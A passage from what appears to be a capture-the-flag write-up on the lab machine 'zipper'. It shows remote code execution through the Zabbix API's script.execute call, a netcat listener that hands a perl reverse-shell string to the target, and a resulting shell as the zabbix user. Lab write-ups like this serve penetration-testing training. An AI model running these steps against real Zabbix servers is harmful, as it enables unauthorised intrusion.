 

Now I'll start a normal listener on 445.

So in the first window, I `curl`:



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": "10106", "scriptid": 5}}' | jq -c .
    {"jsonrpc": "2.0","error": {"code": -32500,"message": "Application error.","data": "Timeout while executing a shell script."},"id": 1}



In the second window the shell connects, and immediately gets the perl
reverse shell string:



    root@kali# cat perl.shell | nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:47448.
    /bin/sh: 0: can't access tty; job control turned off
    root@kali#



Now the third window has stable shell:



    root@kali# nc -lvnp 445
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::445
    Ncat: Listening on 0.0.0.0:445
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:35842.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
    $ hostname
    zipper



### Path 2 - Zabbix to Zabbix Agent

#### RCE on Zabbix

The next two paths start with RCE on the Zabbix host (container). For
this one, I'll show the Exploit-Db script. For the next one, I'll use
the API.

I'll grab the script:


